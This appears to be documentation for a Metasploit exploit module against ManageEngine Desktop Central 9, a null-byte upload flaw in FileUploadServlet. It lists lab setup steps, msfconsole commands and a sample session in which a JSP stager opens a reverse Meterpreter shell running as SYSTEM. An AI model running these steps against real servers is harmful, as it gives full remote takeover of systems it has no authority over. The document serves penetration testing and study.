 ## Description

This module exploits a vulnerability found in ManageEngine Desktop Central 9. When uploading a 7z file, the FileUploadServlet class does not check the user-controlled ConnectionId parameter in the FileUploadServlet class. This allows a remote attacker to inject a null byte at the end of the value to create a malicious file with an arbitrary file type, and then place it under a directory that allows server-side scripts to run, which results in remote code execution under the context of SYSTEM.
This exploit was successfully tested on version 9, build 90109 and build 91084.

**NOTE:** By default, some ManageEngine Desktop Central versions run on port 8020, but older ones run on port 8040. Also, using this exploit will leave debugging information produced by FileUploadServlet in file `rdslog0.txt`.
       
## ManageEngine Desktop Central 9

Desktop Central is integrated desktop and mobile device management software that helps in managing servers, laptops, desktops, smartphones, and tablets from a central location. It is used for automating your regular desktop management routines like installing patches, distributing software, managing your IT Assets, managing software licenses, monitoring software usage statistics, managing USB device usage, taking control of remote desktops, and more. It supports managing both Windows, Mac and Linux operating systems.

## Prerequisites

1. Start a Windows VM (such as Win 7)
2. Install a vulnerable version of ManageEngine Desktop Central. This exploit was tested on Build [90109](http://archives.manageengine.com/desktop-central/90109/) and [91084](http://archives.manageengine.com/desktop-central/91084/). 
3. After installation, verify that the server is working by visiting it with a browser. Depending on the version, the server port may be 8020, or 8040.

## Verification Steps

1. Do: ```use exploit/windows/http/manageengine_connectionid_write```
2. Do: ```set RHOST [IP]```
3. Do: ```check```
4. Do: ```run```

## Scenarios

```
$ msfconsole
msf > use exploit/windows/http/manageengine_connectionid_write 
msf exploit(manageengine_connectionid_write) > set rhost 192.168.1.188
rhost => 192.168.1.188
msf exploit(manageengine_connectionid_write) > check
[*] 192.168.1.188:8020 - The target appears to be vulnerable.
msf exploit(manageengine_connectionid_write) > exploit

[*] Started reverse handler on 192.168.1.64:4444 
[*] Creating JSP stager
[*] Uploading JSP stager test.jsp...
[*] Executing stager...
[*] Sending stage (885806 bytes) to 192.168.1.188
[*] Meterpreter session 1 opened (192.168.1.64:4444 -> 192.168.1.188:61023) at 2017-04-15 17:35:29 -0500
[+] Deleted ../webapps/DesktopCentral/jspf/test.jsp

meterpreter > pwd
C:\ManageEngine\DesktopCentral_Server\bin
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >

```
